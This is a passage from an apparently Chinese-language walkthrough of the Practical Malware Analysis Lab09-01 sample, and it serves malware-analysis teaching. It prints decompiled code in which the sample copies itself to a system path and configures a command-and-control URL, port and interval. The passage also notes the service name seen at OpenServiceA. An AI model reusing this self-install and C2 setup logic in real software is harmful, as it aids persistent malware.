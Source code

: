 ```
      return 1;
    }
  }
  CloseServiceHandle(hService);
  CloseServiceHandle(hSCManager);
  if ( !ExpandEnvironmentStringsA(Src, BinaryPathName, 0x400u) )
    return 1;
  if ( !GetModuleFileNameA(0, Filename, 0x400u) )
    return 1;
  if ( !CopyFileA(Filename, BinaryPathName, 0) )
    return 1;
  if ( sub_4015B0(BinaryPathName) )
    return 1;                                   // ups
  return sub_401070(aUps, aHttpWwwPractic, a80, a60) != 0;// http://www.practicalmalwareanalysis.com
}
```

运行到函数`OpenServiceA()`函数处，`lpServiceName`参数为`Lab09-01`.

![image-20220119122836429](images/69.png)
